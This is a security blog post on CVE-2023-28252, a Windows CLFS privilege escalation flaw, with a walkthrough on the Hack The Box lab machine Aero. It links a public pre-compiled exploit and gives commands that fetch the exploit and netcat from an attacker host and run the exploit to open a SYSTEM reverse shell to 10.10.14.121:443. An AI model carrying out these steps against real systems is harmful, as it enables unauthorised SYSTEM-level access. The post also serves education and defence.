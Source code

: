 +++
tags = ["Windows", "Active Directory", "CVE-2023-28252", "CLFS"]
draft = false
title = "Understanding CVE-2023-28252: Deep Dive into the CLFS Privilege Escalation Vulnerability"
author = "bloodstiller"
date = 2024-11-05
+++

## Understanding CVE-2023-28252: A Deep Dive into CLFS Privilege Escalation {#understanding-cve-2023-28252-a-deep-dive-into-clfs-privilege-escalation}

CVE-2023-28252 represents a critical vulnerability in Microsoft's Common Log File System (CLFS) that allows local privilege escalation to SYSTEM.


### What is CLFS? {#what-is-clfs}

The Common Log File System (CLFS) is a logging subsystem introduced in Windows Server 2003 R2. Unlike traditional logging systems, CLFS provides:


#### Component Overview {#component-overview}

```text
CLFS Architecture:
├── Log Container
│   ├── Base Log File (.blf)
│   └── Container Files (.clf)
├── Stream Management
│   ├── Virtual Log Files
│   └── Log Blocks
└── Client Interface
    ├── User Mode API
    └── Kernel Mode API
```


#### Key Features {#key-features}

-   Transactional logging with ACID properties
-   High-performance sequential I/O operations
-   Crash recovery capabilities
-   Structured storage for log records


### Technical Deep Dive {#technical-deep-dive}


#### Vulnerability Details {#vulnerability-details}

The vulnerability exists in the CLFS driver (CLFS.SYS) and involves:

-   Memory allocation issues in the CLFS driver
-   Improper validation of user-controlled input
-   Potential for heap corruption leading to privilege escalation


### Real-World Exploitation Example {#real-world-exploitation-example}

-   This was performed on the hack the box machine Aero:
    -   <https://app.hackthebox.com/machines/Aero>


#### Available Proof of Concept {#available-proof-of-concept}

A pre-compiled exploit is available at:

-   <https://github.com/duck-sec/CVE-2023-28252-Compiled-exe>
-   **Note**: This exploit allows passing another binary as an argument for privileged execution


#### Initial Setup and Exploitation {#initial-setup-and-exploitation}

After discovering the target is vulnerable to CVE-2023-28252, we locate a suitable pre-compiled exploit:

-   <https://github.com/duck-sec/CVE-2023-28252-Compiled-exe>
-   **Note**: This exploit allows us to pass another binary as an argument, which is ideal for obtaining a reverse shell as NT/Authority

-   **Clone the Exploit**:
    ```bash
       git clone https://github.com/duck-sec/CVE-2023-28252-Compiled-exe.git
    ```

-   **Transfer Required Files to Target**:
    First, transfer the exploit:
    ```bash
       wget http://10.10.14.121:9000/exploit.exe -o ex.exe
    ```
    {{< figure src="/ox-hugo/2024-11-04-194403_.png" >}}

    Then, transfer netcat for the reverse shell:
    ```bash
       wget http://10.10.14.121:9000/nc64.exe -o nc64.exe
    ```
    {{< figure src="/ox-hugo/2024-11-04-194156_.png" >}}

-   **Setup Reverse Shell Listener**:
    On the attack machine:
    ```bash
       rlwrap -cAr nc -nvlp 443
    ```
    {{< figure src="/ox-hugo/2024-11-04-194636_.png" >}}

-   **Execute Exploit**:
    Trigger the exploit with netcat as the payload:
    ```bash
       .\ex.exe 1208 1 "C:\Users\sam.emerson\Documents\nc64.exe 10.10.14.121 443 -e cmd"
    ```
    {{< figure src="/ox-hugo/2024-11-04-194705_.png" >}}
    - **Command breakdown**:
        - `.\ex.exe`: The compiled exploit executable
        - `1208`: Process ID to target
        - `1`: Execution mode flag
        - Netcat parameters:
          - `10.10.14.121`: Attacker's IP address
          - `443`: Port to connect back to
          - `-e cmd`: Execute cmd.exe and bind it to the connection

-   **Confirm Privilege Escalation**:
    Successfully receive NT/Authority SYSTEM shell:
    - ![](/ox-hugo/2024-11-04-194750_.png)


### Impact Analysis {#impact-analysis}


#### Affected Systems Matrix: {#affected-systems-matrix}

| Windows Version | Architecture | Vulnerable |
|-----------------|--------------|------------|
| Server 2022     | x64          | Yes        |
| Server 2019     | x64          | Yes        |
| Windows 11      | x64          | Yes        |
| Windows 10      | x64          | Yes        |


### Detection and Prevention: {#detection-and-prevention}


#### Mitigation Strategies: {#mitigation-strategies}

1.  **System Updates**:
    -   Apply latest Windows security updates
    -   Enable automatic updates

2.  **Access Controls**:
    -   Implement principle of least privilege
    -   Monitor and restrict access to CLFS-related operations

3.  **System Monitoring**:
    -   Monitor for suspicious CLFS operations
    -   Track privilege escalation attempts


### References: {#references}

1.  [Microsoft Security Advisory](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-28252)
2.  [CVE-2023-28252 Details (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2023-28252)
3.  [Bleeping Computer Analysis](https://www.bleepingcomputer.com/news/security/windows-zero-day-vulnerability-exploited-in-ransomware-attacks/)
4.  [Duck-Sec's POC Repository](https://github.com/duck-sec/CVE-2023-28252-Compiled-exe)
5.  [Rapid7's](https://www.rapid7.com/blog/post/2023/04/11/patch-tuesday-april-2023/)
6.  [For a very deep dive Fortra.com](https://www.coresecurity.com/core-labs/articles/analysis-cve-2023-28252-clfs-vulnerability)
